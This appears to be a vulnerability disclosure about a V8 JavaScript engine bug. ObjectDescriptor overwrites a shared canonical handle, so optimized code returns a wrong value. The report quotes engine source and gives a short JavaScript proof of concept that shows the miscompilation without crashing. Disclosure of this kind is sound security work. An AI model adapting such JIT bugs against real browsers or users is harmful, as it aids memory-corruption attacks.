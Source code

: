 Here's HandleScope::GetHandle and CanonicalHandleScope::Lookup used to get a handle location.

Object** HandleScope::GetHandle(Isolate* isolate, Object* value) {
  DCHECK(AllowHandleAllocation::IsAllowed());
  HandleScopeData* data = isolate->handle_scope_data();
  CanonicalHandleScope* canonical = data->canonical_scope;
  return canonical ? canonical->Lookup(value) : CreateHandle(isolate, value);
}

Object** CanonicalHandleScope::Lookup(Object* object) {
  DCHECK_LE(canonical_level_, isolate_->handle_scope_data()->level);
  ...
  Object*** entry = identity_map_->Get(object);
  if (*entry == nullptr) {
    // Allocate new handle location.
    *entry = HandleScope::CreateHandle(isolate_, object);
  }
  return reinterpret_cast<Object**>(*entry);
}

As you can see above, if the method is called within a CanonicalHandleScope scope, it checks if there's a cache for the given value, if there is, returns the cached location, otherwise, creates one for it.

The above routine implies that it's not a good idea to change the value of the handle as shown in the following example code.

CanonicalHandleScope canonical(isolate);
Handle<Smi> a(Smi::kZero, isolate);

*a.location() = Smi::FromInt(2);

Handle<Smi> b(Smi::kZero, isolate);  // b.location() == a.location()
b->value();  // == 2

But the ObjectDescriptor class does that.

Here's a snippet of the class (https://cs.chromium.org/chromium/src/v8/src/objects/literal-objects.cc?rcl=f0f13de9b59b2f7291de005456cf832f5409bb14&l=352).

  void CreateTemplates(Isolate* isolate, int slack) {
    ...
    temp_handle_ = handle(Smi::kZero, isolate);
  }

  void AddNamedProperty(Isolate* isolate, Handle<Name> name,
                        ClassBoilerplate::ValueKind value_kind,
                        int value_index) {
    Smi* value = Smi::FromInt(value_index);
    ...
      *temp_handle_.location() = value;
      ...
  }


PoC:
// Flags: --allow-natives-syntax

function deferred_func() {
    class C {
        method1() {

        }
    }
}

let bound = (a => a).bind(this, 0);

function opt() {
    deferred_func.prototype;  // ReduceJSLoadNamed

    return bound();
}

print(opt());  // 0
%OptimizeFunctionOnNextCall(opt);

print(opt());  // must print out 0, but actually it prints out 3

How the PoC works:
1. GetOptimizedCode uses CanonicalHandleScope.
2. JSNativeContextSpecialization::ReduceJSLoadNamed calls JSFunction::EnsureHasInitialMap which tries to compile the given function(deferred_func in the PoC).
    1. So ObjectDescriptor is used.
3. The ObjectDescriptor::AddNamedProperty method changes the value of handle(Smi::kZero, isolate) to "3".
4. Loading the bound function's arguments is reduced with: jsgraph()->Constant(handle(bound_arguments->get(i), isolate())))
    1. handle(bound_arguments->get(i), isolate()) returns the same handle, of which the value is "3", used in the vulnerable class.


Note that the PoC doesn't crash.



This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.